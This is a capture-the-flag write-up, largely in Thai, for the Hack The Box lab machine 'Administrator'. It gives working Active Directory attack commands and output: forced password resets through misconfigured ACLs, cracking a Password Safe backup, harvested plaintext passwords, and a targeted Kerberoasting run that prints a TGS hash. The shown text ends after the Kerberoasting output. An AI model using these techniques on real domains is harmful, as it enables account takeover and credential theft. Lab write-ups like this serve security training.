

# About Administrator

`Administrator` is a medium-difficulty Windows machine designed around a complete domain compromise scenario, where credentials for a low-privileged user are provided. To gain access to the `michael` account, ACLs (Access Control Lists) over privileged objects are enumerated, leading us to discover that the user `olivia` has `GenericAll` permissions over `michael`, allowing us to reset his password. With access as `michael`, it is revealed that he can force a password change on the user `benjamin`, whose password is reset. This grants access to `FTP` where a `backup.psafe3` file is discovered, cracked, and reveals credentials for several users. These credentials are sprayed across the domain, revealing valid credentials for the user `emily`. Further enumeration shows that `emily` has `GenericWrite` permissions over the user `ethan`, allowing us to perform a targeted Kerberoasting attack. The recovered hash is cracked and reveals valid credentials for `ethan`, who is found to have `DCSync` rights ultimately allowing retrieval of the `Administrator` account hash and full domain compromise.

As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: Olivia Password: ichliebedich

```bash
./scan.sh 10.10.11.42 
[*] Running rustscan...
[*] Running nmap on ports: 21,53,88,445,464,593,3269,3268,5985,9389,139,135,389,47001,49664,49665,49668,49666,49667,51170,56220,56222,56226,56245,59376,56277
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 22:11 +07
Nmap scan report for 10.10.11.42
Host is up (0.038s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-01 21:51:30Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
51170/tcp open  msrpc         Microsoft Windows RPC
56220/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
56222/tcp open  msrpc         Microsoft Windows RPC
56226/tcp open  msrpc         Microsoft Windows RPC
56245/tcp open  msrpc         Microsoft Windows RPC
56277/tcp open  msrpc         Microsoft Windows RPC
59376/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-01T21:52:29
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h39m53s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 76.15 seconds

```

ใช้ user:password ที่ให้มา Olivia:ichliebedich
```bash
for service in winrm wmi smb mssql rdp ssh ldap  ftp  vnc; do netexec $service 10.10.11.42 -u 'Olivia' -p 'ichliebedich'; done
```


จะพบว่า winrm สามารถใช้ evil-winrm 
```bash
evil-winrm -i 10.10.11.42 -u Olivia -p 'ichliebedich'
```

# Lateral movement

```bash
bloodhound-python -u Olivia -p 'ichliebedich' -d administrator.htb -v --zip -c All,LoggedOn -dc dc.administrator.htb -ns 10.10.11.42  2>/dev/null
```

เริ่มจาก Olivia และทดสอบเลือก First Degree Object Control จะพบว่า Olivia มีสิทธิ GenericAll privilege โดยสามารถเปลี่ยนรหัสผ่านของ Michael ได้ 
IF olivia have (GenericAll == Change password) > Michale 


เปลี่ยน Password ของ Michael ได้ด้วยคำสั่งดังต่อไปนี้ 
```powershell
net user michael Password123! /DOMAIN
```

เมื่อเราตรวจสอบสิทธิของ Michael จะพบว่ามีสิทธิ ForceChangePassword ไปที่ Benjamin
Michale have (ForceChangePassword == Change password **without knowing the current password**) > Benjamin 



หากเลือก help จะสามารถใช้คำสั่ง linux ดังต่อไปนี้ 
```bash
net rpc password benjamin Password123! -U administrator.htb/michael%Password123! -S administrator.htb
```

เมื่อเปลี่ยนสำเร็จแล้วทดสอบ Login ด้วย winrm จะพบว่าไม่สามารถไปต่อได้ โดยมีรายละเอียดดังภาพ


ทดสอบใช้งาน FTP ด้วย Credential ที่เปลี่ยน benjamin:Password123!

```bash
ftp administrator.htb
```

จะพบว่าสามารถเข้าถึงได้ และพบว่ามีไฟล์ของ backup.psafe3 


จากไฟล์ที่เราได้มาเป็นไฟล์ Password Safe ซึ่งเราสามารถใช้ pwsafe2john ได้สำหรับสร้าง hash file 

```bash
pwsafe2john Backup.psafe3 > pwsafe.hash
john --wordlist=/usr/share/wordlists/rockyou.txt pwsafe.hash 
tekieromucho     (Backu) 
```


จากนั้นทดสอบเปิดไฟล์ด้วยรหัสผ่านที่ได้มา tekieromucho 

```bash
sudo apt-get -y install passwordsafe
```


Harvest Password 
```
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

หากตรวจสอบสิทธิของ emily ใน Bloodhound จะพบว่ามีสิทธิ **GenericWrite** ซึ่งหมายความว่าเราสามารถเขียนสิทธิของ servicePrincipalNames ด้วยการโจมตีแบบ kerberoasting attack

> With **GenericWrite** over a user, you can write to the “**servicePrincipalNames**” attribute and perform a **targeted kerberoasting** attack.


```bash
faketime "$(ntpdate -q dc.administrator.htb | cut -d ' ' -f 1,2)" ~/Tools/targetedKerberoast/targetedKerberoast.py -v -d 'administrator.htb' -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb

[*] Starting kerberoast attacks  
[*] Fetching usernames from Active Directory with LDAP  
[VERBOSE] SPN added successfully for (ethan)  
[+] Printing hash for (ethan)  
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$5997fe1ab63967b764b615761fbdf6eb$7dd398df65b3c5003efd6892efd56a271c04ed2a6026b531ea1a8991925b5e45822b97f550ff9dce8aeee17f9eb0b2a278993d6ea10fffb6b0eae49a7b6a5656ef550887b761ab3842e048b0674e2305c2312d54751272c38bd2164b9989994a1ac3ab3135611558aa3ebe9a96478f9a39636e4831942e9d62cafc5039ba7e37aa4429cfdaf30b5eb400bbc5aeed93c918b8a735ddcffd4e7870e7e7aa92447f59e39922ec4a45989436e7a95aacdc01536436cd64409b2b6f523072c547066231d0364d6e37a2d34f9030b9f122550330c4b5cc0b24cc5ff058b581a1e4307d0502f41b3e99a922ec3e0c609dd1a70f24f09f3bfc5be14f7aa9303dfa6e797e3620bab8f15f0786cf11bd16b7d71583014fffe8d64a993b7589a21761e541e81a8b35de7713c94a13b871b25265440a195fba49df2b2ea6b6cab799fffe481954942cb1f2768415887e52d574f0bbf374b98dc47b0fca4bbefee2c3cdd5caf5a0cb0a3977510defb6b351439b7f89ed89e0eb3be7ba7f74c7b39c392142e4995d9747ff21f998cb07d130440a92e98478bf571ac476293975ac415cece9e16feffbbdb128eb3b940f4fbb132b17bd7950a48dec79476efad363165ea121d5c7add40e278562e02bc9795c773f9daf180f04bf65719e799bf6df0aaef4bfce9a3c52cc010d5c6d567242640d18693036ae73e70f1662112c2d8ebbac8334de1f8b8bdb5cc29a77f0b58b443f743786e273cb7c0e7b9b7eb34733ec069267a822823d744c24428e8991bd5f9cb9b4a855fb43e44362468d50435c812863f837278bcf2d2f0a0255f16629130b068826f668ab5c4126d03ab3eb02e18013f2d44cfb5456fdaa100835d914f23974ab360add09ee5d77c79d676d0b56eaf427f1b6e63d68832a7ff38e829899d2427f275e33c7122ecda6d0a516bcdfbea6e06266fff4ed34571bda691ba5f1d87fb65de8dc6494e33637a4f7b6e27dba9f9668474a2b295e4ec828975fada3f2640ac455f329b1def22277dc6e9fe80172332ce0e3a0ca4f35ba2d500c660a050ce0b84402495ec923b43b4b3a088254f9b0df4637f0c20feb6542bbe4aa0c17e684bdb1f6199133966759f269c858b4814dfe5a4f3b45232d1fdfaf470f1a3bee6fe9f2c791b88cc312a16bbfcda4003fb204975748e855e5af44faa32e6b72d2702a581fc86d79a1dac2213de4214b680ac46293d097ca124c8d2e633c496fe57b7ee6525edbd4532210b88004045e23f8942b76b250f07b80a3364c647795ad8c6394b94a9da88adf727b6977965f073bcc9fd1b14111f13468173a002f9a5276d52d1ac55ef6db8c6a2e91f2edb440f487226862f05dcab21e8c937026a7f156ca7aa7cc8153314f646d09de33d9bf599c27b797e95028a116fa261c3f7b74229ce92bf2d66bc0c8f1d4f9326e7cc46d3ff5eea81192f80722e887f0451ce42a6b066216b801e016ebecba35d2173ed1a5e12908aaaf8cd239088966dee5730eed4a51a96dc97f9f79fbce88a6b2f9f52a  
[VERBOSE] SPN removed successfully for (ethan)
```


